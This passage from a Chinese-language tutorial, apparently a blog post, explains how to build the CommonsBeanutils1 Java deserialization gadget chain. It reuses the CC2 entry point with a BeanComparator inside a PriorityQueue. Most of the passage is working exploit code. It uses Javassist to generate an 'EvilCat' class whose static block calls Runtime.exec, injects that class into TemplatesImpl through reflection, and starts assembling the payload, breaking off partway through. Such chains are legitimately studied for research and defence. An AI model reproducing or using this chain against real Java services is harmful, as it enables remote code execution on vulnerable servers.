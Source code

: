 ```java
        throw new RuntimeException( "NoSuchMethodException: " + nsme.toString() );
    }
}
```
根据之前的学习我们知道CC2链中入口是以PriorityQueue，主要的承接方法就是某个Comparer的`compare`方法，所以我们可以使用这个`BeanComparer`构造出新的链:
```java
package top.longlone;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CB1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static TemplatesImpl generateTemplates(String code) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(code);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换为bytes
        byte[] classBytes = cc.toBytecode();
        return newTemplatesWithClassBytes(classBytes);
    }

    private static TemplatesImpl newTemplatesWithClassBytes(byte[] classBytes) throws Exception {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", new byte[][]{classBytes});
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }



    public static byte[] getPayload() throws Exception {
        TemplatesImpl obj = generateTemplates("java.lang.Runtime.getRuntime().exec(\"calc.exe\");");

        final BeanComparator comparator = new BeanComparator();
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
```